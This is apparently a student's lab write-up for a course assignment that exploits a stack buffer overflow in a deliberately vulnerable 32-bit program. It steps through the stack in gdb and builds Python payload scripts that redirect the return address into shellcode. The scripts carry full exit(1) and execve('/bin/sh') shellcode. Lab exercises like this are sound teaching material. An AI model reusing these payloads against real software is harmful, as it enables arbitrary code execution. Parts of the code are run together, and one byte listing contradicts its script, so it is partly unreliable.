we break at 0x56556191 (ret from vuln) to observe behavior of eip
following the suggested information-giving commands in gdb, we get the desirable esp in vuln being 0xffffcdf8
we try to craft the shell code
compiling the given asm with necessary incantations fails
we look for an exit one shell code in shell-storm
we analyze shell code
\x90 * 12 for padding
\xf8\xcd\xff\xff redirecting our eip
\x31\xc0\x40\x89\xc3\xcd\x80 exit one shell code
we also try inserting an execve("/bin/bash") shell code (ofc from shell-storm)
$$$ profit
exit one shell code full:
1
2
3
4
5
6
7
8
9
10
11
12
importstruct# we want to write past the sfp and change ripnop="\x90"ret_address=0xffffcdf8redirect=struct.pack("<I",ret_address)exit_one=b"\x31\xc0\x40\x89\xc3\xcd\x80"payload=(nop*12)+redirect+exit_onewithopen("payload","wb")asf:f.write(payload)
However we also try a different method of inserting the shell code, as described further down below.
And with that,
Know thy enemy
Let’s first take a look at the instructions for main and vuln:


Then, we define hook-stop to allow us to view the next 1 instruction on the eip, and 16 words starting from the esp register. This is gonna give us an upside-down view of the stack starting from the $esp register. This is beneficial to us since the $esp is pointed to the very bottom of the current stack frame, allowing us to see the contents of the current frame being executed.
1
2
3
4
(gdb) define hook-stop
>x/1i $eip>x/16wx $espend
I hope this is a helpful visual of what we’re doing:
We can see main allocating its own stack frame in the next instruction, by moving ebp to esp

we can confirm this by getting information on the stack frame with info frame

As we saw in dissassemble main above, the next instruction is to call <vuln>. Let’s single step and and view our registers to confirm that main’s stack frame is indeed in 0xffffcdf8:

Both esp and ebp at this point are at 0xffffcdf8 because main isn’t allocating any variables. The next instructions are to call <vuln> and allocate stack frame for vuln. lets move to vuln <+1> and look at the stack.

Lets analyze it a bit *(edited for clarity):
0x56556195 <main+3>: call 0x5655-617d <vuln>
stores return address in 1, which is at the address 0xffffcdf5->0xffffcdf8
*this is the rip or where the eip will jump to after executing all of vuln’s instructions.
0x5655617d <vuln>: push %ebp
pushes the previous ebp
*you guessed it, this is the sfp or the previous ebp (in this case, it’s main’s `ebp)
*The next 5 instructions (x/5i $eip) shows us:
mov %esp,%ebp : → move ebp into current esp (creating a new stack frame for vuln())
sub $0x8,%esp : → decrement esp by 8 bytes
lea -0x8(%ebp),%eax: → allocate address for buffer[8]
We can confirm these are exactly what the program is going to do by checking registers now:

We move a single step and review the registers:

The esp and ebp are now the same because of the mov %esp,%ebp instruction. Remember that the instruction shown by the command x/1i $eip in gdb is the next instruction, not the current one executed. Anyway, let’s push on while keeping a close eye at the stack:

Since our hook-stop was defined to view 16 words from the esp, we can see that the instruction <vuln+6>: lea -0x8(%ebp),%eax did allocate 8 bytes for buffer[8]. To further confirm this, lets print the location of buffer now with print &buffer:

In case it wasn’t obvious, our view of the stack printing from the $esp register gives us an inverted view of the stack, where the memory addresses increase as we go down.
We can see that:
at address 0xffffcdf0 → 0xffffcdf4 that the address 0xffffcdf8 is stored, which should be our sfp (old ebp)
right next to it is the rip (old eip) (yes it is 5655619a), storing where the eip should continue execution. Looking at our disas main, that is the instruction right after call vuln
What do we do now?
First, lets grab our shell code:
Ghost in the (egg) Shell
The provided asm doesnt really compile on my end, even with the provided incantation


So let’s do what any decent “hacker” would do and look for it online. The glory days of insecure software have been long gone, so surely there is a myriad of old, low-level exploits online. The site that struck out to me immediately after searching for the keyword shell codes in google is:
/* exit-core.c by Charles Stevenson < core@bokeoa.com >
*
* I made this as a chunk you can paste in to make modular remote
* exploits. I use it when I need a process to exit cleanly.
*/charhellcode[]=/* _exit(1); linux/x86 by core */// 7 bytes _exit(1) ... 'cause we're nice >:) by core
"\x31\xc0"// xor %eax,%eax
"\x40"// inc %eax
"\x89\xc3"// mov %eax,%ebx
"\xcd\x80"// int $0x80
;intmain(void){void(*shell)()=(void*)&hellcode;printf("%d byte _exit(1); linux/x86 by core\n",strlen(hellcode));shell();return0;}
(thank you Charles Stevenson)
And what do you know, the mp1.pdf actually already provided us with this holy sauce. I didn’t even need to look any further:
We don’t really know what this does or why this works, all we know is that it should make our program exit with code 01. So let’s do some digging and analyze it a bit.
1
2
3
4
118a:31c0xor%eax,%eax; set eax to 0
118c:40inc%eax; increment eax by 1
118d:89c3mov%eax,%ebx; move eax into ebx (now ebx = 1)
118f:cd80int$0x80; trigger interrupt, invoke syscall (eax)
Now I can tell you that I know what exactly it is doing given these commands, but I can’t really explain why. I looked through the intel developer’s manual but I can’t really find an explanation as to why setting eax = 1 results in the syscall exit, or why it looks at ebx to provide the exit code, or why cd 80 (int $0x80) results in an interrupt. So for now let’s just press the i believe button on this and press on.
rip and tear
The call to gets() in the next instruction allows us to write into the start of buffer, 0xffffcde8 and beyond.

we know that the green addresses is the buffer[8],
we know that the teal addresses is the sfp (old ebp),
we know that the red addresses is the rip (main() eip)
From here, we can proceed in two ways:
We can snipebuffer[8] and insert our shell code there. It fits, since the shell code is only 7 bytes long, and redirect rip to the start of our buffer at 0xffffcde8. Lets call this the snipe method, because idk, I’m bad at naming things.
since we can write to higher memory addresses anyway, we can just redirect rip to 0xffffcdf8 where the rest of our shell code would be located anyway

Let’s call this the matrix method, because as I said, I’m bad at naming things. Anwyay, here’s a quick visualization of our goal:
Let’s outline the steps of our creating the snipe shell code:
insert exit 01 shell code (\x31\xc0\x40\x89\xc3\xcd\x80) into the buffer
insert NOP’s (\x90) to pad the remaining 1 byte and also pad the sfp
we don’t really need to do anything with the sfp, we’re just padding it so we can get to the rip.
redirect the rip to the start our buffer at 0xffffcde8
Of course we can just write the bytes in the terminal directly to payload, but for the purpose of re-usability lets do it in python:
1
2
3
4
5
6
7
8
9
10
11
12
importstruct# we want to write past the sfp and change ripnop="\x90"buf_addr=0xffffcde8redirect=struct.pack("<I",buf_addr)exit_one=b"\x31\xc0\x40\x89\xc3\xcd\x80"payload=exit_one+(nop*5)+redirectwithopen("payload","wb")asf:f.write(payload)
Our final payload should look like something like this in bytes:
\x31\xc0\x40\x89\xc3\xcd\x80 \x90\x90\x90\x90\x90 \xe8\xcd\xff\xff
the python struct.pack() simply packs the buf_addr in bytes, and as you may have already guessed (or you already knew about that, idk), the "<I" specifies it to be in little-endian format.
note that the spaces shouldn’t be there, I’m just adding those in to make it readable to humans.
now let’s rerun vuln with the payload automatically inserted when it asks for input with r < payload
I set a break point at the part right before the esp is incremented to deallocate the stack frame for vuln, so we can look at the stack from the esp at that point:

as we can see, the buffer starting at 0xffffcde8 already has the exit(1) shell code. It has been padded with a nop (\x90), but that will be fine since its in little-endian format. The rip at 0xffffcdf4 has also been redirected to 0xffffcde8, which will be executed (since we turned off write/execute protection in our compiler flags).
Looking at our disas vuln, the next instructions will be
0x56556190 <+19>: leave → move esp to ebp and pop sfp (which we have set to 0x90909090) making the ebp store 0x90909090. we can confirm this in the next instruction when we look at info registers.
0x56556191 <+20>: ret → pop rip and continue execution.

Now that we have returned from vuln, since we have changed rip we can see that it is now executing from our buffer, 0xffffcde8. If you can recall, we have defined hook-stop to show us the next instruction in eip and the next 16 words from esp. Of course, the esp is in 0xffffcdf8 since the esp was incremented a while ago, so we cant really see anything of value there.
So let’s take a look at the stack by printing the next 16 words from the address of our buffer, 0xffffcde8:

Let’s also take a look at what the next 5 instructions are:

And what do you know, our shell code worked! We’re deadset on a homerun and the only thing that’s stopping us is ctrl + c. Of course, we’re not stopping now. We’ll continue execution. But before that, i claimed that the ebp will be set to x90909090 a while ago. Lets take a look at our registers now.

Hell yeah. Let’s continue execution with c and look at the glorious exit code.

and just like that, snipe method worked just fine.
Matrix method
To recap:
The plan is to:
pad buffer and sfp with NOPs,
redirect rip to 0xffffcdf8 (where the rest of our shell code will be placed, due to the nature of gets allowing us to write up into higher memory addresses beyond buffer)
store and execute our shell code at 0xffffcdf8 and beyond
Since the buffer is 8 bytes and the sfp is 4 bytes, we will need 12-bytes’ worth of NOPs, our redirect to 0xffffcdf8 which is actually main'sebp.
If you recall, we already discussed this above:
main allocates stack frame at 0xffffcdf8
doesn’t really have variables, so just immediately stores values below it
as you can see the sfp normally points to 0xffffcdf8, so that confirms that 0xffffcdf8 is indeed main’s ebp.
Now, for our shell code:
1
2
3
4
5
6
7
8
9
10
11
12
13
importstruct# we want to write past the sfp and change ripnop="\x90"# buf_addr = 0xffffcde8redirect_addr=0xffffcdf8redirect=struct.pack("<I",redirect_addr)exit_one=b"\x31\xc0\x40\x89\xc3\xcd\x80"payload=(nop*12)+redirect+exit_onewithopen("payload","wb")asf:f.write(payload)
Our final payload should look like something like this in bytes:
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90 \xe8\xcd\xff\xff \x31\xc0\x40\x89\xc3\xcd\x80
Without further ado, let’s rerun vuln with our payload.

I skipped over the initial things, I believe I don’t need to explain those anymore. As we can see here:
buffer and sfp are filled with NOPs
rip at 0xffffcdf4 points towards 0xffffcdf8
0xffffcdf8 up until 0xffffcdff contains our exit(1) shell code.
Let’s skip to ret and single step from here just to view it more closely:

And there you go, we are already executing exit(1). Just to confirm, let’s view the next 5 instructions in the eip:

And that’s that. Lets continue and get our sweet sweet exited with code 01

Now that we have a reliable way to insert longer shell code, lets try execve("/bin/bash")
/*
Title: Linux x86 execve("/bin/sh") - 28 bytes
Author: Jean Pascal Pereira <pereira@secbiz.de>
Web: http://0xffe4.org
Disassembly of section .text:
08048060 <_start>:
8048060: 31 c0 xor %eax,%eax
8048062: 50 push %eax
8048063: 68 2f 2f 73 68 push $0x68732f2f
8048068: 68 2f 62 69 6e push $0x6e69622f
804806d: 89 e3 mov %esp,%ebx
804806f: 89 c1 mov %eax,%ecx
8048071: 89 c2 mov %eax,%edx
8048073: b0 0b mov $0xb,%al
8048075: cd 80 int $0x80
8048077: 31 c0 xor %eax,%eax
8048079: 40 inc %eax
804807a: cd 80 int $0x80
*/#include<stdio.h>charshellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73""\x68\x68\x2f\x62\x69\x6e\x89""\xe3\x89\xc1\x89\xc2\xb0\x0b""\xcd\x80\x31\xc0\x40\xcd\x80";intmain(){fprintf(stdout,"Lenght: %d\n",strlen(shellcode));(*(void(*)())shellcode)();}
Before pressing the i believe button, let’s look at what the shell code does though. As usual, I don’t know why \xcd\x80 calls an interrupt, it just does.
1
2
3
4
5
6
7
8
9
10
11
12
31c0xor%eax,%eax; Clear eax register (set it to 0)
50push%eax; Push null byte onto the stack (used as a terminator)
682f2f7368push$0x68732f2f; Push the string "//sh" onto the stack in reverse order
682f62696epush$0x6e69622f; Push the string "nib/" onto the stack in reverse order
89e3mov%esp,%ebx; Move the address of the top of the stack (which now contains the "/bin/sh" string) into ebx
89c1mov%eax,%ecx; Move 0 (null) into ecx (will be used as the second argument to execve, argv)
89c2mov%eax,%edx; Move 0 (null) into edx (will be used as the third argument to execve, envp)
b00bmov$0xb,%al; Move the syscall number for execve (11) into al
cd80int$0x80; Invoke the syscall (execve("/bin/sh", 0, 0))
31c0xor%eax,%eax; Clear eax register (set it to 0)
40inc%eax; Increment eax (set it to 1, which is the syscall exit number)
cd80int$0x80; Invoke the syscall (exit)
If you look closely, we’re reversing ”/bin/sh” for the little endian format. Anyway, execve allows us to execute a program, or so it says in the man-pages:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
execve(2) System Calls Manual execve(2)
NAME
execve - execute program
LIBRARY
Standard C library (libc, -lc)
SYNOPSIS
#include <unistd.h>
int execve(const char *pathname, char *const _Nullable argv[],
char *const _Nullable envp[]);
DESCRIPTION
execve() executes the program referred to by pathname. This causes the program that is currently being run
by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initial‐
ized and uninitialized) data segments.
Now lets rerun vuln with our shiny, brand-new payload:

As usual:
teal is our buffer and sfp
red is our rip
green is our shell code , with the orange part showing the last 4 bytes, ending with the interrupt of course.
We continue and take a look at what is going on with the eip. Since we have 12 instructions in the asm version of the shell code, lets take a look at the next 12 instructions of our eip:


That’s our execve shell code! Anyway, lets continue from here:

We can see that its executing /usr/bin/bash, because /bin/bash is just a symlink. Anyway, now we have what they call arbitrary code execution – sort of. I can’t really get this to run in the terminal, even when I disable Address space layout randomization (ASLR) for vuln. I suspect it might have something to do with having a different memory address as compared to running it in gdb, but that’s already outside the scope of this machine problem, so I believe that’s the end of this writeup.
それでわ、 じゃあね！
Changelog
2024-02-17T04:00:00+08:00 - first full writeup upload
2024-02-22T20:20:00+08:00 - full rewrite
2024-02-24T12:00:00+08:00 - minor edits to first section and second sections for clarity
Notes
I haven’t gotten around to adding a “last modified” tag yet, it should be simple to add, since we already have a “date created” tag.